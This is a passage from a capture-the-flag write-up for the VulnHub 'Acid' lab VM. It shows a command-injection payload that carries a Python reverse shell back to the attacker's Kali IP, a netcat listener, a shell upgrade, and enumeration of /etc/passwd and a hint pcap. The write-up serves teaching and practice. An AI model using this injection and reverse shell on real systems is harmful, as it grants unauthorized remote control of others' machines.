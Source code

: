 We notice that we can't write in the current directory `/Challenge/Magic_Box`, however, we can write in the parent directory `/Challenge`.

## Opening the magic doors

Let's use that flaw to launch a reverse shell:

We use `nc` on kali and listen on the port `1234`.

```text
root@kali:~# nc -l -p 1234
```

Now, we need to force the VM to connect to Kali. We can use this payload:

```text
; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.130.128",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
*Note: `172.16.130.128` is Kali's IP and `1234` is the port aforementioned.*

```text
root@kali:~# nc -l -p 1234
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@acid:/var/www/html/Challenge/Magic_Box$ 
```

Hurray! Now we need to get root and get the flag!

## The Culprit

We were stuck for a while on that last part and couldn't find any lead. We can print `/etc/passwd` to find 2 users that might be interesting:

```text
acid:x:1000:1000:acid,,,:/home/acid:/bin/bash
saman:x:1001:1001:,,,:/home/saman:/bin/bash
```

Finally, we stumble into the file `/sbin/raw_vs_isi/hint.pcapng`. It's a pcap file, with a strange TCP stream:

```text
> heya
< hello
> what was the name of the Culprit ???
< saman and now a days he's known by the alias of 1337hax0r
> oh...Fuck....Great...Now, we gonna Catch Him Soon :D
< Yes .. We have to !! The mad bomber is on a rage
> Ohk...cya
< Over and Out
```

![TCP]


[VUL]: https://www.vulnhub.com/ "Vulnhub website"
[WPG]: files/img/webpage.png "Webpage"
[LOG]: files/img/login_page.png "Login page"
[DIR]: files/img/dirbuster.png "Dirbuster"
[TCP]: files/img/tcp_stream.png "TCP Stream"